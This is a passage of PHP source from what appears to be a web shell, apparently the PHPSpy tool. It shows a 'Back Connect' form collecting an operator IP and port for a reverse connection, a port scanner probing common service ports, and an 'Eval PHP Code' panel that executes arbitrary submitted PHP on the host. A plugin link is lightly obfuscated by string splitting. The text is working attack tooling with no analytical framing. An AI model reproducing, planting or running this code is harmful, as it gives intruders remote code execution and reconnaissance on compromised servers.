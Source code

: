 	formhead(array('title'=&gt;'Back Connect'));
	makehide('action','backconnect');
	p('&lt;p&gt;');
	p('Your IP:');
	makeinput(array('name'=&gt;'yourip','size'=&gt;20,'value'=&gt;$yourip));
	p('Your Port:');
	makeinput(array('name'=&gt;'yourport','size'=&gt;15,'value'=&gt;$yourport));
	p('Use:');
	makeselect(array('name'=&gt;'use','option'=&gt;$usedb,'selected'=&gt;$use));
	makeinput(array('name'=&gt;'start','value'=&gt;'Start','type'=&gt;'submit','class'=&gt;'bt'));
	p('&lt;/p&gt;');
	formfoot();
}//end

elseif ($action == 'portscan') {
	!$scanip && $scanip = '127.0.0.1';
	!$scanport && $scanport = '21,25,80,110,135,139,445,1433,3306,3389,5631,43958';
	formhead(array('title'=&gt;'Port Scan'));
	makehide('action','portscan');
	p('&lt;p&gt;');
	p('IP:');
	makeinput(array('name'=&gt;'scanip','size'=&gt;20,'value'=&gt;$scanip));
	p('Port:');
	makeinput(array('name'=&gt;'scanport','size'=&gt;80,'value'=&gt;$scanport));
	makeinput(array('name'=&gt;'startscan','value'=&gt;'Scan','type'=&gt;'submit','class'=&gt;'bt'));
	p('&lt;/p&gt;');
	formfoot();

	if ($startscan) {
		p('&lt;h2&gt;Result &raquo;&lt;/h2&gt;');
		p('&lt;ul class="info"&gt;');
		foreach(explode(',', $scanport) as $port) {
			$fp = @fsockopen($scanip, $port, &$errno, &$errstr, 1); 
			if (!$fp) {
				p('&lt;li&gt;'.$scanip.':'.$port.' ------------------------ &lt;span style="font-weight:bold;color:#f00;"&gt;Close&lt;/span&gt;&lt;/li&gt;');
		   } else {
				p('&lt;li&gt;'.$scanip.':'.$port.' ------------------------ &lt;span style="font-weight:bold;color:#080;"&gt;Open&lt;/span&gt;&lt;/li&gt;');
				@fclose($fp);
		   } 
		}
		p('&lt;/ul&gt;');
	}
}

elseif ($action == 'eval') {
	$phpcode = trim($phpcode);
	if($phpcode){
		if (!preg_match('#&lt;\?#si', $phpcode)) {
			$phpcode = "&lt;?php\n\n{$phpcode}\n\n?&gt;";
		}
		eval("?"."&gt;$phpcode&lt;?");
	}
	formhead(array('title'=&gt;'Eval PHP Code'));
	makehide('action','eval');
	maketext(array('title'=&gt;'PHP Code','name'=&gt;'phpcode', 'value'=&gt;$phpcode));
	p('&lt;p&gt;&lt;a href="http://w'.'ww.4ng'.'el.net/php'.'spy/pl'.'ugin/" target="_blank"&gt;Get plugins&lt;/a&gt;&lt;/p&gt;');
	formfooter();
}//end eval
